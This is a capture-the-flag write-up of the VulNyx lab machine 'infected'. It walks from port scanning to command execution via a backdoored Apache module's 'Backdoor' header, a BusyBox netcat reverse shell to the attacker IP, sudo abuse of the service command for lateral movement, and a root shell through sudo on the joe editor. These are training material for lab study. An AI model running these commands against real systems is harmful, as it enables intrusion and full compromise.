


# infected

## Executive Summary

| Machine | Author | Category | Platform |
| :--- | :--- | :--- | :--- |
| infected | d4t4s3c | Low | VulNyx |

**Summary:** The infected machine exposed only SSH and Apache during initial enumeration, but web content discovery revealed an `info.php` page that disclosed Apache and PHP configuration details. Reviewing the loaded Apache modules showed a suspicious backdoored module capable of executing commands supplied through the custom `Backdoor` HTTP header. A simple `id` command confirmed remote command execution as `www-data`, and the same primitive was used to launch a BusyBox netcat reverse shell back to the attacker machine. Local sudo enumeration showed that `www-data` could execute `/usr/sbin/service` as `laurent` without a password, and abusing the service command path argument with `../../../../bin/sh` provided lateral movement into a shell as `laurent`. A second sudo rule then exposed passwordless execution of the Joe text editor as root. Launching `joe` through sudo and using its shell execution capability produced a root shell, completing the chain from malicious Apache module execution to full system compromise.

---

## Reconnaissance

The engagement began with host discovery on the local lab subnet, followed by TCP port enumeration against the identified target.

1. An Nmap ping sweep identified the target machine at `192.168.56.124`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -sn 192.168.56.0/24                   
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-14 11:28 -0400
Nmap scan report for 192.168.56.1 (192.168.56.1)
Host is up (0.00025s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.100 (192.168.56.100)
Host is up (0.00072s latency).
MAC Address: 08:00:27:E0:9C:DC (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.124 (192.168.56.124)
Host is up (0.00098s latency).
MAC Address: 08:00:27:C0:19:AB (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104 (192.168.56.104)
Host is up.
Nmap done: 256 IP addresses (4 hosts up) scanned in 6.40 seconds
                                                                                                                      
┌──(kali㉿kali)-[~/nyx]
└─$ ip=192.168.56.124       
```

2. A full TCP port scan showed that only SSH and HTTP were exposed:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p- -T4 --min-rate=5000 -Pn $ip      
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-14 11:29 -0400
Nmap scan report for 192.168.56.124 (192.168.56.124)
Host is up (0.00017s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:C0:19:AB (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 5.02 seconds
```

3. Service detection identified OpenSSH 9.2p1 and Apache 2.4.57 on Debian:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ nmap -p 22,80 -sC -sV -T4 -Pn $ip          
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-14 11:31 -0400
Nmap scan report for 192.168.56.124 (192.168.56.124)
Host is up (0.00057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-server-header: Apache/2.4.57 (Debian)
|_http-title: Apache2 Debian Default Page: It works
MAC Address: 08:00:27:C0:19:AB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.44 seconds
```

4. Directory brute forcing against the Apache service discovered an exposed `info.php` file:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ gobuster dir -u http://$ip/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x php,html,txt        
===============================================================
Gobuster v3.8.2
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.124/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.8.2
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
index.html           (Status: 200) [Size: 10701]
info.php             (Status: 200) [Size: 114431]
server-status        (Status: 403) [Size: 279]
Progress: 882228 / 882228 (100.00%)
===============================================================
Finished
===============================================================
```

The `info.php` page exposed server configuration details, and the loaded module list revealed a suspicious backdoored Apache module.



---

## Initial Access

### Apache Backdoor Command Execution

5. The suspected module was tested by sending a custom `Backdoor` header containing the command `id`:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -s http://$ip/ -H "Backdoor: id" -v | grep "uid" 
*   Trying 192.168.56.124:80...
* Established connection to 192.168.56.124 (192.168.56.124 port 80) from 192.168.56.104 port 56796 
* using HTTP/1.x
> GET / HTTP/1.1
> Host: 192.168.56.124
> User-Agent: curl/8.20.0
> Accept: */*
> Backdoor: id
> 
* Request completely sent off
< HTTP/1.1 200 OK
< Date: Fri, 14 Aug 2026 15:45:31 GMT
< Server: Apache/2.4.57 (Debian)
< Content-Length: 54
< Content-Type: text/html
< 
{ [54 bytes data]
* Connection #0 to host 192.168.56.124:80 left intact
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The response confirmed that commands supplied through the header were executed by Apache as `www-data`.

6. A reverse shell payload was sent through the same header to connect back to the attacker listener:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ curl -s http://$ip/ -H "Backdoor: busybox nc 192.168.56.104 4444 -e /bin/bash"
```

7. Penelope received the reverse shell and upgraded the session to an interactive PTY:

```bash
┌──(kali㉿kali)-[~/nyx]
└─$ penelope -p 4444
[+] Listening for reverse shells on 0.0.0.0:4444 -> 127.0.0.1 • 10.0.2.15 • 192.168.56.104
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => infected 192.168.56.124 Linux-x86_64 👤 www-data(33) 😍 Session ID <1>
[+] ⭐ Agent deployed via /usr/bin/python3
[+] Interacting with session [1] • PTY • Menu key F12 ⇐
[+] Session log: /home/kali/.penelope/sessions/infected~192.168.56.124-Linux-x86_64/2026_08_14-11_48_11-456-www-data(33).log
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@infected:/$ sudo -l
Matching Defaults entries for www-data on infected:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on infected:
    (laurent) NOPASSWD: /usr/sbin/service
```

The initial shell landed as `www-data`, and sudo policy enumeration showed a passwordless path to execute `/usr/sbin/service` as user `laurent`.

---

## Lateral Movement

### Abusing service as laurent

8. The `service` binary was invoked through sudo with a relative path traversal argument resolving to `/bin/sh`, producing a shell as `laurent`:

```bash
www-data@infected:/$ sudo -u laurent /usr/sbin/service ../../../../bin/sh
$ id
uid=1000(laurent) gid=1000(laurent) groups=1000(laurent) 
```

This moved execution from the web server account into the normal local user context of `laurent`.

---

## Privilege Escalation

### Root Shell Through Joe Editor

9. Sudo permissions were checked again from the `laurent` context:

```bash
$ sudo -l
Matching Defaults entries for laurent on infected:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User laurent may run the following commands on infected:
    (root) NOPASSWD: /usr/bin/joe
$ sudo -u root /usr/sbin/joe
```

10. The correct Joe binary path was then executed as root:

```bash
$ sudo -u root /usr/bin/joe 
```

Inside Joe, the editor command interface was used to invoke a shell while retaining the root privilege context.



11. The resulting shell had `uid=0`, and both flags were read:

```bash
root@infected:/# id
uid=0(root) gid=0(root) groups=0(root)
root@infected:/# whoami;hostname
root
infected
root@infected:/# cat /home/laurent/user.txt /root/root.txt 
```

---

## Attack Chain Summary

1. **Reconnaissance**: Host discovery identified `192.168.56.124`, and port scanning exposed OpenSSH on port 22 and Apache on port 80.

2. **Vulnerability Discovery**: Web enumeration found `info.php`, whose configuration output exposed a suspicious loaded Apache module that accepted commands through the `Backdoor` header.

3. **Exploitation**: The `Backdoor` header executed commands as `www-data`, and a BusyBox netcat payload was used to obtain an interactive reverse shell.

4. **Internal Enumeration**: Sudo policy allowed `www-data` to run `/usr/sbin/service` as `laurent`, then allowed `laurent` to run `/usr/bin/joe` as root without a password.

5. **Privilege Escalation**: The service command was abused for lateral movement to `laurent`, and Joe editor shell execution was used through sudo to spawn a root shell and complete the compromise.
